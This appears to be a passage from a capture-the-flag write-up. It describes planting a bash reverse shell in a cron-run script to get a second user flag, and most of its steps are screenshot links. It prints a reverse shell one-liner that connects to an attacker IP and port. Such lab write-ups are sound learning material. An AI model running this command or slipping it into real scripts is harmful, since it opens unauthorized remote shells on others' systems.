 ![RCE](./img/56.png)

Bash to differentiate a little

```
sh -i >& /dev/tcp/10.17.51.216/9001 0>&1
```

## Inserting my reverse shell into the script:

![RCE](./img/57.png)

## Opening the listner and wait the cron job:

![RCE](./img/58.png)

## Receive the reverse shell and taking the second user flag:

![RCE](./img/59.png)